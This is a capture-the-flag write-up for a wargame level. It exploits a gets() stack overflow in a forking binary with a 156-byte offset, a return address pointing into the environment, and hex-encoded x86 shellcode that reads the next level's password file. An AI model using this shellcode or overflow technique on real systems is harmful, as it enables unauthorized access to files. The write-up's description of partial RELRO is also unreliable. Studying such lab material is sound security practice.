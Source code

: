 # Level04

## Reconnaissance

We have one security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow

This binary does a fork at the beginning.
With gdb, we notice that the parent process checks if the child process is not call an `exec`
and the child process, ask for input with `gets`, so we can overwrite the return pointer of main there.

## Exploit

We gonna overwrite the pointer of main in the child process. The only issue is that the parent process 
monitor the child process, preventing us of call exec in the child process.
We gonna create a shellcode which is going to print the flag instead of opening a shell.
Offset 156.

We put the shellcode in the env (`0xffffd7ae`): `export SHELLCODE=$(python -c 'print 100 * "\x90" + "\x31\xc0\x50\x68\x70\x61\x73\x73\x68\x30\x35\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x31\xc9\x31\xd2\x89\xe3\x6a\x05\x58\xcd\x80\x83\xec\x29\x89\xc3\x89\xe1\x6a\x29\x5a\x6a\x03\x58\xcd\x80\x6a\x01\x5b\x6a\x04\x58\xcd\x80"')` 

Payload => `python -c 'print "A" * 156 + "\xce\xd7\xff\xff"'`